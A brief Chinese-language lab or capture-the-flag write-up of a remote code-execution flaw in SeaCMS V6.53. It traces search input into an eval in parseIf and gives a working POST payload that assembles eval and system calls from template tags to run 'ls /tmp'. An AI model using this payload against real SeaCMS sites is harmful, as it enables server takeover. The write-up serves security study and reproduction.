

# 海洋 cms V6.53版本代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。


2、进行搜索并抓包。



3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```


